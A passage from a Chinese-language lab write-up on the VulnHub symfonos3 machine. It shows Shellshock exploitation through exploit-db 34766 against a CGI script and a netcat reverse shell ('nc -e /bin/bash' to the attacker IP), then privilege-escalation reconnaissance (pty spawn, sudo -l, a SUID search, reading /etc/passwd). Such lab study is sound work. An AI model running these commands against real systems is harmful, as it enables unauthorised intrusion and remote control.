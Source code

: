 
# 中期-漏洞利用

看上去就像 `uptime` 的输出,查了下,应该是 shellshock 漏洞
```bash
searchsploit -w shellshock
```

找个 https://www.exploit-db.com/exploits/34766 测试下

kali 监听
```bash
nc -lvp 4444
```

执行命令,回弹 shell
```bash
wget https://www.exploit-db.com/download/34766
mv 34766 34766.php
php 34766.php -u http://192.168.141.150/cgi-bin/underworld -c "nc -e /bin/bash 192.168.141.134 4444"
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/20.png)

下面尝试提权

---

# 后期-水平提权

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
cat /etc/passwd
```
